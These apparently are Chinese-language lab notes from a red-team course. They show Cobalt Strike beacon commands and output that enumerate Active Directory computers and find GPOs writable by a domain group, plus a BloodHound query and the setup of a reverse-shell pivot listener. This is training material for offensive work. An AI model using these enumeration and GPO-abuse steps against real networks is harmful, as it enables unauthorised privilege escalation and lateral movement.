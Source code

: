 

获取某个OU的计算机列表
```
beacon> powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName

dnshostname            
-----------            
srv-1.dev.cyberbotic.io
```


下面查询返回所有拥有WriteProperty、WriteDacl或WriteOwner权限的SID
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN={AD7EE1ED-CDC8-4994-AE0F-50BA8B264829},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1126

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1126
DEV\Developers
```

查看上面结果中ObjectDN的名字
```
beacon> powershell Get-DomainGPO -Name "{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}" -Properties DisplayName

displayname       
-----------       
PowerShell Logging
```

在BloodHound中的查询
```
MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) RETURN p
```

![alt GPO](https://rto-assets.s3.eu-west-2.amazonaws.com/group-policy/devs-genericwrite.png?width=1920)

# Pivot Listeners

其实这里就是监听，前面一直都是正向连接shell，这里是反向连接shell，从靶机到CS，因为GPO作用的时间可能不可控，当命令生效时马上反向连接到CS，在这个场景下reverse shell是比较好的策略。

CS新建一个rev shell

![alt rev](https://rto-assets.s3.eu-west-2.amazonaws.com/pivot-listener/new-pivot-listener.png?width=1920)
